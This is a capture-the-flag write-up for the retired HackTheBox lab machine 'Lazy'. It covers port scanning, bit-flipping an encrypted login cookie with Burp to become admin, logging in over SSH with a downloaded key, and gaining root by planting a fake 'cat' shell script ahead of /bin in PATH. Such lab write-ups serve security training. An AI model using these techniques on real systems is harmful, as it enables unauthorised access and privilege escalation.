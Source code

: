 # October

This is the write-up for the box Lazy that got retired at the 7th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.18    lazy.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lazy.nmap 10.10.10.18
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

This is what we see on the web page:

![Web Page](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_webpage.png)

Unfortunately we don't get any interesting results back.

When registering an user, the page just says that we are currently logged in as the user we used to register.
Lets examine the cookies by login out first and then login back again and intercept the request with Burpsuite.

On Burpsuite we send the request to the **Sequencer** tab to replay the login request multiple times.

![Burpsuite Sequencer](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_cookie-1.png)

When clicking on _Analyze_ the capture gets summarized and we want to _Copy Tokens_ and put them in a file.

![Burpsuite Sequencer](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_cookie-2.png)

The copied cookies vary from each other which means there is some kind of randomness in creating those.
Assuming these are encrypted strings we will try to flip the bits on a user whose name is similar to _admin_ and by flipping the characters in the cookie we can become admin.

So we register a user with a name close to _admin_ like _bdmin_ and send it to **Burpsuites Intruder** and make sure the position is on the authentication Cookie:

![Burpsuite Intruder](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_cookie-3.png)

As the Payload we will use the _Bit flipper_.

![Burpsuite bit flipper](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_cookie-4.png)

The responses with the length 1351 all show different user names in the Response like _"gdmin, Idmin, kdmin"_ and so on.
If we wait long enough it will find get the result for _admin_ back, too. It has a length of 1499.
> auth:60BZd9dCWwq8hMf9HGyO5SPOBzdZzMVv

Now we can input this cookie into the browser with any plugin, refresh the page and we see an admin panel:

![Admin panel](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_webpage-admin.png)

On this page we can download a SSH key.

## Checking SSH (Port 22)

Now we have a SSH key that we can try to login in on the box:
```markdown
chmod 600 mysshkeywithnamemitsos

ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
```

We can login as the user _mitsos_

## Privilege Escalation

In the home directory of _mitsos_ is a binary file named **backup**. When executing it, it outputs the contents of the _/etc/shadow_ file.
There is also the _peda_ extension for **gdb** which seems to be hint to debug this binary.
```markdown
gdb ./backup
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048420
```

After running it we see that it calls _system_ and right before that it loads a variable into ESP which is and argument for _system_.

![Binary Analysis 1](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_privesc-1.png)

![Binary Analysis 1](https://kyuu-ji.github.io/htb-write-up/lazy/lazy_privesc-2.png)

The command `cat` gets executed from _/bin/cat_. When we create our own *cat** command in a path that gets checked before we can exploit this:
```markdown
mitsos@LazyClown:~$ which cat
/bin/cat
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

The environment variable **$PATH** looks through every path until it finds the `cat` command. So we will create our own in a path before it reaches the valid one.

The fake `cat` command we create starts a shell:
```bash
#!/bin/sh

/bin/sh
```

Now we modify the environment variable **$PATH** to look in the home folder of _mitsos_ first:
```markdown
export PATH=`pwd`:$PATH
```

If we run _backup_ now, it will start a shell instead of displaying the contents of the /etc/shadow file.
The effective ID on this shell is 0 and thus we are root!
